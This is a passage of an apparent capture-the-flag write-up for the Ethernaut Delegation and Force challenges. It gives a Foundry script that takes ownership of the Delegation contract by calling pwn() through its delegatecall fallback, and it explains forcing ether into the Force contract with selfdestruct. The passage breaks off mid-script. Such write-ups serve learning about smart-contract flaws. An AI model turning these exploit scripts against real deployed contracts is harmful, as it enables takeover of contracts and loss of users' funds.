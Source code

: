 **Here's the Foundry script that solves the challenge**
```foundry
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";
import {Delegation} from "../src/Delegation.sol";
import "forge-std/console.sol";

contract DelegationSolution  is Script{

    function run() public {
        Delegation delegation = Delegation(0xd8bf6b90C8Fd31463f4473F16A0EabFD8c24AAd9); //instance address
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        address attacker = vm.addr(privateKey);
        console.log(delegation.owner());
        vm.startBroadcast(attacker);
        (bool success , ) = address(delegation).call(abi.encodeWithSignature("pwn()"));
        require(success, "not hacked");
        vm.stopBroadcast();
        console.log(delegation.owner());

    }
}
```
---

# #Force

**Challenge :** I need to make the balance of the contract greater than zero .

**Contract**
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```
A contract can receive ETH force fully even without `receive` or `fallback` functions using `selfdestruct`.

so I sent ether to the contract by self destroying . 

**Here's the Foundry script that solves the challenge**
```foundry
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";
import {Force} from "../src/Force.sol";

contract ForceSolution is Script {

    function run() public {
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        address attacker = vm.addr(privateKey);
        vm.startBroadcast(attacker);
```